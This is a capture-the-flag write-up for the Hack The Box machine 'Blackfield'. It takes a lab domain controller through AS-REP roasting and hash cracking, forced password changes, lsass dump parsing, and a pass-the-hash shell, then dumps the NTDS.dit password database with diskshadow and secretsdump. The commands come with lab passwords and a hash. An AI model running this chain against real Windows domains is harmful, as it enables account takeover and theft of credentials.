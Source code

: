 ```yaml
---
layout: post
title: "Blackfield"
date: 2024-12-28
categories: hackthebox
---
```


`sudo nmap -sC -sV -p- 10.10.10.192 -oN blackfield -T4 
![[Pasted image 20240528212507.png]]
 looks like a DC  , so let's try to enumerate 
 I tried rpcclient null session , and ldap null session , and tried to look for shares. 
the weird things here is smbclient did show a list of shares , while nxc (using -u ''-p'' )shows that we don't have permission to enumerate the shares .

when dealing with smb shares the best way to enumerate is smbmap

`smbmap -H 10.10.10.192 -u null`
![[Pasted image 20240528215120.png]]

we can read ==profiles$==
seems like list of users , let's create a wordlists with this users and try asreproasting 
![[Pasted image 20240528215355.png]]

`impacket-GetNPUsers Blackfield.local/  -usersfile users.txt	`
![[Pasted image 20240528215859.png]]

let's crack it 
`hashcat -a 0 -m 18200 asreperoasting /usr/share/wordlists/rockyou.txt `
![[Pasted image 20240528220522.png]]

we got support password , let's run bloodhound 
`nxc ldap 10.10.10.192 -u 'support' -p '#00^BlackKnight' -c all --bloodhound -ns 10.10.10.192
`
![[Pasted image 20240528220830.png]]

after uploading it to bloodhound we can see that our user has ==forcechangepassword== over ==audit2020== 

`net rpc password "AUDIT2020" "d0s3nt123@" -U "BLACKFIELD.LOCAL"/"support"%"#00^BlackKnight" -S "DC01.BLACKFIELD.LOCAL"
`
`nxc smb 10.10.10.192 -u 'AUDIT2020' -p 'd0s3nt123@'  `
![[Pasted image 20240528221919.png]]

let's enumerate shares using this new credentials 
`nxc smb 10.10.10.192 -u 'AUDIT2020' -p 'd0s3nt123@' --shares
![[Pasted image 20240528222207.png]]`

if we spider this share 
`nxc smb 10.10.10.192 -u 'AUDIT2020' -p 'd0s3nt123@' --share forencsic -M spider_plus
`
very juicy
![[Pasted image 20240528222511.png]]

after getting the zip and unzip the files , we can use ==pypkatz== to read the contend of the DUMP 
`pypykatz lsa minidump  lsass.DMP
![[Pasted image 20240528222912.png]]
we found couples of hashes but the only that work was ==svc_backup== 
let's see what we can do with it , back to ==bloodhound==

we can get shell using ==evil-winrm== 
![[Pasted image 20240528222958.png]]

`evil-winrm -i 10.10.10.192 -u svc_backup -H '9658d1d1dcd9250115e2205d9f48400d'`
![[Pasted image 20240528223137.png]]


this user is part of backup operator group so we can use it to read any files we want on the box 
at first I tried to dump the ==SAM== But the administrator hash on it didn't work
`reg save HKLM\SAM sam`
`reg save HKLM\SYSTEM system`
![[Pasted image 20240528223354.png]]

![[Pasted image 20240528223450.png]]

we can host an smbserver and transfer it very quick 

but the SAM database will not lead us anywhere 

so I tried to dump the ==NTDS==

for that I need to used ==diskshadow.exe== utility
we can use the following script with the diskshadows.exe (I took it  from https://academy.hackthebox.com/module/67/section/601)
![[Pasted image 20240528224528.png]]

before send it to the machine , we need ==unix2dos== so the stupid windows can read our script
![[Pasted image 20240528224701.png]]

![[Pasted image 20240528224753.png]]

`diskshadow.exe /s disk.txt`
![[Pasted image 20240528224954.png]]


![[Pasted image 20240528225012.png]]

we can now host an smbserver and transfer the ==NTDS.dit== easily
then use ==secretsdump to read the NTDS==
`impacket-secretsdump -ntds ntds.dit -system SYSTEM.SAV LOCAL`
![[Pasted image 20240528225243.png]]

![[Pasted image 20240528225358.png]]